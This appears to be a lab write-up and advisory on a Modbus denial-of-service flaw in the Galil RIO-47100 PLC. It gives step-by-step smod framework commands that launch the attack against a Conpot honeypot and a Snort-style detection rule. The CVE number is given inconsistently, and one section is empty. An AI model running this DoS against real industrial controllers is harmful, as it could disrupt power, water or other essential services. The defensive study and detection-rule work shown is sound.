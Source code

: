 # Overview
In this report, we will focus on modbus, the most widely used SCADA/ICS protocol. We will use Honeypot as the target. 
This Report provides: 

- Mitigation details for a vulnerability affecting the Galil RIO-47100 “Pocket PLC.”
- Disclosure of exploit runs on ModBus protocol.  
- Simulating an attack scenario against Scada Honeypot (Conpot) 
- Modbus attack diagnostic functions in Wireshark
- Writing IDS rules to detect attack


Researcher Jon Christmas of Solera Networks has identified an improper validation vulnerability in the Galil RIO-47100 PLC, which can result in a loss of availability. Galil has produced an update that mitigates this vulnerability. The researcher has tested this update and validates that it resolves the vulnerability. This vulnerability could be exploited remotely.

---


# Vulnerability Overview

#### Improper Input Validation
The Galil RIO-47100 PLC allows repeated requests to be sent in a single session. By using these repeated requests sent in a single session, an attacker can cause a denial of service of the system.
CVE-2013-06992 has been assigned to this vulnerability. A CVSS v2 base score of 7.1 has been
assigned. This exploit sends multiple function code (read a coil repeated in a single packet) to break the machine.
#### Vulnerability Details 
The Rio-47100 by Galil is a small PLC with an internal RISC based
processor. It communicates using ModBus, or Telnet over Ethernet as well as
having a web server built in that allows a user to issue commands.

##### _Explotability_
This vulnerability could be exploited remotely.
##### _Existence of Exploit_
Known public exploits specifically target this vulnerability.
##### _Difficulty_
An attacker with a medium skill would be able to exploit this vulnerability.

## Affected Produtcs 
The following Galil product is affected:
- Hardware : RIO-47100 PLC by Galil.
- Version : Rio Firmware Prior to 1.1d
- Vendor : [`www.galilmc.com`](www.galilmc.com)

## Impact
Successful exploitation of this vulnerability could allow an attacker to affect the availability for the Galil RIO-47100 PLC. This vulnerabilities other potential disastrous impacts of DoS attacks against SCADA/ICS systems include electrical blackouts, shutdown of water and sewage systems and other essential municipal services.
Impact to individual organizations depends on many factors that are unique to each organization.
## Background (Silinebilir)
Galil is a US-based company that maintains offices in Rocklin, California. Galil produces motion control products that are distributed globally.
The affected product, RIO-47100 PLC, is a compact PLC system that includes I/O. According to Galil, RIO-47100 PLC is deployed across several sectors including energy, defense industrial base, and agriculture and food. Galil estimates that these products are used primarily in the United States and Europe with a small percentage in Asia.


---
# Exploitation of Vulnerability 
We are going to use [CVE-2013-0699](https://nvd.nist.gov/vuln/detail/CVE-2013-0699#match-3087197) in this spesific example. As we mentioned before, with this exploit; attacker can cause a denial of service of the system. 

In order to exploit the vulnerability we need to download [Smod](https://github.com/Joshua1909/smod)
After downloading smod we can run it by typing;
```
cd smod
python smod.py
```
We can see the ModBus Frameworks' modules by typing;
```
show modules
```


```
use /modbus/dos/galilRIO
```

```
show options
```
We have checked what parameters our exploit needs to run. This exploit needs; 
`RHOST` = remote host ip address,
`UID` = Unit id,
paramateres.
```
set RHOST <ip>
set UID <uid>
```
After giving the parameters which are wanted we are ready to run it. 
```
exploit
```
As you can see above, dos attack has started.

---

# Packet Analysing


---
# Rules
```
alert tcp any any -> $HOME_NET 502 (
	msg:"MODBUS Inproper input Validation -dos attack-"; 
	flow:to_server,established;
	reference:cve,2013-0699;
	classtype: denial-of-service;
	sid:1;
	content:"|01 00 00 00 01|";
	detection_filter:track by_dst, count 10, seconds 1;)
```
